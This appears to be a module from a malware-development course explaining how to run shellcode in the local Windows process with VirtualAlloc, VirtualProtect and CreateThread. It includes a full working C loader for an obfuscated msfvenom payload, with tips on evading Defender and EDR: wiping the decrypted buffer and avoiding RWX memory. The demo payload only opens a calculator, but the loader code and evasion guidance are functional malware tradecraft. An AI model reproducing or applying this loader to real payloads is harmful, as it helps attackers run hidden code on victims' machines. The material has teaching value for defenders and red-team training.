






Introduction
This module will discuss one of the simplest ways to execute shellcode via the creation of a new thread. Although this technique is simple, it's crucial to understand how it works as it lays the groundwork for more advanced shellcode execution methods.
The method discussed in this module utilizes VirtualAlloc, VirtualProtect and CreateThread Windows APIs. It's important to note that this method is by no means a stealthy technique and EDRs will almost certainly detect this simple shellcode execution technique. On the other hand, antiviruses can potentially be bypassed using this method with sufficient obfuscation.
Required Windows APIs
A good starting point would be to have a look at the documentation for the Windows APIs that will be utilized:
Obfuscating Payload
The payload used in this module will be the Msfvenom generated x64 calc payload. To make the demo realistic, evading Defender will be attempted and therefore obfuscating or encrypting the payload will be necessary. HellShell, which was introduced in an earlier module, will be used to obfuscate the payload. Run the following command:
HellShell.exe msfvenom.bin uuid
The output should be saved to the UuidArray variable.
Allocating Memory
VirtualAlloc is used to allocate memory of size sDeobfuscatedSize. The size of sDeobfuscatedSize is determined by the UuidDeobfuscation function, which returns the total size of the deobfuscated payload.
The VirtualAlloc WinAPI function looks like the following based on its documentation
LPVOID VirtualAlloc(
[in, optional] LPVOID lpAddress, // The starting address of the region to allocate (set to NULL)
[in] SIZE_T dwSize, // The size of the region to allocate, in bytes
[in] DWORD flAllocationType, // The type of memory allocation
[in] DWORD flProtect // The memory protection for the region of pages to be allocated
);The type of memory allocation is specified as MEM_RESERVE | MEM_COMMIT which will reserve a range of pages in the virtual address space of the calling process and commit physical memory to those reserved pages, the combined flags are discussed separately as the following:
MEM_RESERVE is used to reserve a range of pages without actually committing physical memory.MEM_COMMIT is used to commit a range of pages in the virtual address space of the process.The last parameter of VirtualAlloc sets the permissions on the memory region. The easiest way would be to set the memory protection to PAGE_EXECUTE_READWRITE but that is generally an indicator of malicious activity for many security solutions. Therefore the memory protection is set to PAGE_READWRITE since at this point only writing the payload is required but executing it isn't. Finally, VirtualAlloc will return the base address of the allocated memory.
Writing Payload To Memory
Next, the deobfuscated payload bytes are copied into the newly allocated memory region at pShellcodeAddress and then clean up pDeobfuscatedPayload by overwriting it with 0s. pDeobfuscatedPayload is the base address of a heap allocated by the UuidDeobfuscation function which returns the raw shellcode bytes. It has been overridden with zeroes since it is not required anymore and therefore this will reduce the possibility of security solutions finding the payload in memory.
Modifying Memory Protection
Before the payload can be executed, the memory protection must be changed since at the moment only read/write is permitted. VirtualProtect is used to modify the memory protections and for the payload to execute it will need either PAGE_EXECUTE_READ or PAGE_EXECUTE_READWRITE.
The VirtualProtect WinAPI function looks like the following based on its documentation
BOOL VirtualProtect(
[in] LPVOID lpAddress, // The base address of the memory region whose access protection is to be changed
[in] SIZE_T dwSize, // The size of the region whose access protection attributes are to be changed, in bytes
[in] DWORD flNewProtect, // The new memory protection option
[out] PDWORD lpflOldProtect // Pointer to a 'DWORD' variable that receives the previous access protection value of 'lpAddress'
);Although some shellcode does require PAGE_EXECUTE_READWRITE, such as self-decrypting shellcode, the Msfvenom x64 calc shellcode does not need it but the code snippet below uses that memory protection.
Payload Execution Via CreateThread
Finally, the payload is executed by creating a new thread using the CreateThread Windows API function and passing pShellcodeAddress which is the shellcode address.
The CreateThread WinAPI function looks like the following based on its documentation
HANDLE CreateThread(
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes, // Set to NULL - optional
[in] SIZE_T dwStackSize, // Set to 0 - default
[in] LPTHREAD_START_ROUTINE lpStartAddress, // Pointer to a function to be executed by the thread, in our case its the base address of the payload
[in, optional] __drv_aliasesMem LPVOID lpParameter, // Pointer to a variable to be passed to the function executed (set to NULL - optional)
[in] DWORD dwCreationFlags, // Set to 0 - default
[out, optional] LPDWORD lpThreadId // pointer to a 'DWORD' variable that receives the thread ID (set to NULL - optional)
);Payload Execution Via Function Pointer
Alternatively, there is a simpler way to run the shellcode without using the CreateThread Windows API. In the example below, the shellcode is casted to a VOID function pointer and the shellcode is executed as a function pointer. The code essentially jumps to the pShellcodeAddress address.
(*(VOID(*)()) pShellcodeAddress)();That is equivalent to running the code below.
typedef VOID (WINAPI* fnShellcodefunc)(); // Defined before the main function
fnShellcodefunc pShell = (fnShellcodefunc) pShellcodeAddress;
pShell();CreateThread vs Function Pointer Execution
Although it is possible to execute shellcode using the function pointer method, it's generally not recommended. The Msfvenom-generated shellcode terminates the calling thread after it's done executing. If the shellcode was executed using the function pointer method, then the calling thread will be the main thread and therefore the entire process will exit after the shellcode is finished executing.
Executing the shellcode in a new thread prevents this problem because if the shellcode is done executing, the new worker thread will be terminated rather than the main thread, preventing the whole process from termination.
Waiting For Thread Execution
Executing the shellcode using a new thread without a short delay increases the likelihood of the main thread finishing execution before the worker thread that runs the shellcode has completed its execution, leading to the shellcode not running correctly. This scenario is illustrated in the code snippet below.
int main(){
// ...
CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL); // Shellcode execution
return 0; // The main thread is done executing before the thread running the shellcode
}In the provided implementation, getchar() is used to pause the execution until the user provides input. In real implementations, a different approach should be used which utilizes the WaitForSingleObject WinAPI to wait for a specified time until the thread executes.
The snippet below uses WaitForSingleObject to wait for the newly created thread to finish executing for 2000 milliseconds before executing the remaining code.
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, 2000);
// Remaining codeIn the example below, WaitForSingleObject will wait forever for the new thread to finish executing.
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINTE);Main Function
The main function uses UuidDeobfuscation to deobfuscate the payload, then allocates memory, copies the shellcode to the memory region and executes it.
int main() {
PBYTE pDeobfuscatedPayload = NULL;
SIZE_T sDeobfuscatedSize = NULL;
printf("[i] Injecting Shellcode The Local Process Of Pid: %d \n", GetCurrentProcessId());
printf("[#] Press <Enter> To Decrypt ... ");
getchar();
printf("[i] Decrypting ...");
if (!UuidDeobfuscation(UuidArray, NumberOfElements, &pDeobfuscatedPayload, &sDeobfuscatedSize)) {
return -1;
}
printf("[+] DONE !\n");
printf("[i] Deobfuscated Payload At : 0x%p Of Size : %d \n", pDeobfuscatedPayload, sDeobfuscatedSize);
printf("[#] Press <Enter> To Allocate ... ");
getchar();
PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);
DWORD dwOldProtection = NULL;
if (!VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[#] Press <Enter> To Run ... ");
getchar();
if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return -1;
}
HeapFree(GetProcessHeap(), 0, pDeobfuscatedPayload);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Deallocating Memory
VirtualFree is a WinAPI that is used to deallocate previously allocated memory. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.
BOOL VirtualFree(
[in] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD dwFreeType
);VirtualFree takes the base address of the allocated memory to be freed (lpAddress), the size of the memory to free (dwSize) and the type of free operation (dwFreeType) which can be one of the following flags:
MEM_DECOMMIT - The VirtualFree call will release the physical memory without releasing the virtual address space that is linked to it. As a result, the virtual address space can still be used to allocate memory in the future, but the pages linked to it are no longer supported by physical memory.MEM_RELEASE - Both the virtual address space and the physical memory associated with the virtual memory allocated, are freed. Note that according to Microsoft's documentation, when this flag is used the dwSize parameter must be 0.Debugging
In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.
First, verify the output of the UuidDeobfuscation function to ensure valid shellcode is being returned. The image below shows that the shellcode is being deobfuscated successfully.

The next step is to check that memory is being allocated using the VirtualAlloc Windows API. Again, looking at the memory map at the bottom left it shows that memory is allocated and was populated with zeroes.

After the memory was successfully allocated, the deobfuscated payload is written to the memory buffer.

Recall that pDeobfuscatedPayload was zeroed out to avoid having the deobfuscated payload in memory where it's not being used. The buffer should be zeroed out completely.

Finally, the shellcode is executed and as expected the calculator application appears.

The shellcode can be seen inside Process Hacker's memory tab. Notice how our allocated memory region has RWX memory protection which stands out and therefore is usually a malicious indicator.
